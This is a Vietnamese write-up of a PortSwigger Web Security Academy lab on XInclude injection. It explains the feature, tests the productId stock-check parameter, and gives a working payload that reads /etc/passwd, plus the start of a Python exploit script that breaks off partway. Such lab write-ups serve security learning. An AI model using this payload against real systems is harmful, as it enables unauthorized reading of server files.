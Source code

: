  [image](https://hackmd.io/_uploads/rkAnAOghp.png)

## 8. Lab: Exploiting XInclude to retrieve files

link: https://portswigger.net/web-security/xxe/lab-xinclude-attack

### Phân tích

- Chức năng "Check stock" của trang web nhúng input từ người dùng vào một server-side XML document sau đó thực hiện phân tích cú pháp. Để hoàn thành bài lab, chúng ta cần inject một XInclude statement nhằm truy xuất nội dung tệp /etc/passwd.
- XInclude là một tính năng trong XML cho phép mình chèn và kết hợp các phần của các tài liệu XML khác vào trong một tài liệu XML chính. Nó sử dụng 2 phần tử chính:
  - `<xi:include>`: Đây là phần tử chính để thực hiện XInclude. Ta sử dụng phần tử này để tham chiếu đến tài liệu bạn muốn chèn vào. Phần tử này có một thuộc tính quan trọng là href, trong đó mình chỉ định đường dẫn đến tài liệu cần chèn.
  - `xmlns:xi`: Đây là một khai báo không gian tên (namespace declaration) dành riêng cho XInclude. Mình cần thêm khai báo này vào phần tử gốc của tài liệu XML để chỉ ra rằng bạn sử dụng các phần tử và thuộc tính của XInclude.

 [image](https://hackmd.io/_uploads/ByWlfKe2a.png)

Nhập giá trị %26 (URL encode của ký tự &) cho tham số productId:

 [image](https://hackmd.io/_uploads/BJ8tEtxhT.png)

Response trả về thông báo lỗi "Entities are not allowed for security reasons" cho thấy trang web chứa quá trình phân tích cú pháp XML.

### Khai thác

mình tìm được trên payloadallthethings

 [image](https://hackmd.io/_uploads/rkZCXte2p.png)

- chúng ta sẽ khai báo sẽ sử dụng XInclude với phẩn tử này với: `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`

- Cụ thể thì ta sẽ XML injection vào thuộc tính href của phần tử `<xi:include>` với payload: `<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`
- ta cần thêm parse="text", vì mặc định XInclude sẽ parse file dưới dạng xml file, nên ta cần thêm thuộc tính này để cho trang web hiểu ta muốn parse theo dạng text, giờ ta đưa payload này vào productId là ta sẽ solve được

chúng ta truy cập với payload:

```xml 
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

 [image](https://hackmd.io/_uploads/rJs1Btghp.png)

mình đã viết lại script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a8a00a104875f5e802f3aa000420093.web-security-academy.net'

session=requests.Session()

data = '''productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
```